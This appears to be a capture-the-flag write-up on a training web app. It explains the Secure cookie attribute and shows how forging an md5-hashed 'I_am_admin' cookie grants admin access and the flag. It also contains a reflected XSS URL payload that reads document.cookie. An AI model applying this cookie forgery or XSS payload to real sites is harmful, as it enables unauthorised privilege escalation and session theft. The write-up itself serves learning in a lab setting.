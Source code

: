 # Secure Cookie Attribute

The secure attribute is an option that can be set by the application server when sending a new cookie to the user within an HTTP Response. The purpose of the secure attribute is to prevent cookies from being observed by unauthorized parties due to the transmission of the cookie in clear text.

## Notes

Checking the cookie we can see that we have:

```bash
HTTP/1.1 200 OK
Server: nginx/1.8.0
Date: Wed, 17 Mar 2021 12:57:30 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.3.10-1ubuntu3.19
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Wed, 17-Mar-2021 13:57:25 GMT
```

```bash
http://192.168.1.34/?page=member&id=%3Cscript%3Ealert(document.cookie)%3C/script%3E&Submit=Submit#
```

if we look the Set-Cookie we can note that we get: 

```bash
I_am_admin=68934a3e9455fa72420237eb05902327
```

that mean our value is false checking the hash algorithm md5. so we are not admin.
if we change this value to true (b326b5062b2f0e69046810717534cb09) we get the flag.

```php
<
	?php
	$str = 'false';
	echo md5($str);
?>
```

## Info

[md5](https://md5.gromweb.com/?string=42)<br/>
[owasp cookie](https://owasp.org/www-community/controls/SecureCookieAttribute#)<br/>
[owasp top 10 guide](https://thehackerish.com/owasp-top-10-the-ultimate-guide/)<br/>
